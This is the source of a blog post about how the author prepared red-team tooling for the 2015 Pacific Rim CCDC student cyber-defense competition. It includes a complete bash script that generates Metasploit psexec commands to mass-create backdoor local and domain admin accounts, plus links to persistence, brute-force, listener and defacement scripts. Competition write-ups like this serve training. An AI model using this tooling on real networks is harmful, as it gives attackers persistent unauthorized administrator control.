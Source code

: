 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
category: 
year: 2015
month: 4
day: 15
published: true
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition.
---
```

     
<div class="row">  
     <div class="span9 columns">


<p>I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

<br><br><h3>Kali</h3>
<p>I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found <a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh">here</a>.


<p>Then, I made some manual tweaks:
<ul><li>Change root password</li>
<li>Enable autologin within <code>/etc/gdm3/daemon.conf</code></li>
<li>Disable screen lockout</li>
<li>Add Leafpad and Screenshot to taskbar</li>
<li>Alias <code>msfconsole='msfconsole -r /msfconsole.rc'</code></li>
<li>Add <code>* * * * * /payload_gen.sh</code> to crontab</li>
</ul>
<p>Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found a list of the top 10,000 US last names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

<p>I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.
{% highlight bash lineanchors %}
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
{% endhighlight %}
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh">Source</a>

<br><br>
<h3>Metasploit</h3>
<p>Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc">intel.rc</a> - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc">bounce</a> - Restarts a reverse_tcp listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc">bouncessl</a> - Restarts a reverse_https listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc">local500.rc</a> - Sets up for a brute force of the built-in 500 accounts. Modify with <code>file:///path/to/wordlist</code> on line 4.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">winpersist.rc</a> - Sets up sticky keys, utilman, and display persistence using psexec_command.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">msfconsole.rc</a> - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above


<br><br>
<h3>Commands</h3>
<p>The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan <a href="http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html">here</a>. 

<p>In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 




<br><br>
<h3>Defacement</h3>
<p>Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
<img src="{{site.url}}/assets/prccdc2015-defacement.gif">
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement">Source</a>

<p>Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     

<br><br>
<h3>Prepping for Next Year</h3>
<p>As I mentioned I had a blast this year and hope to attend again next year. Before then I'd there are a few scripts I'd like to have written and in-hand before go-time:
<ul>
	<li><b>ndiff to monitor environment</b> - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.</li>
	<li><b>Low-hanging fruit scans</b> - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. </li>
	<li><b>Script to remove users from admin groups</b> - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.</li>
	<li><b>moar lulz</b> - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching Boos chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...</li></ul>

<p>If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
     
     </div>
</div>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
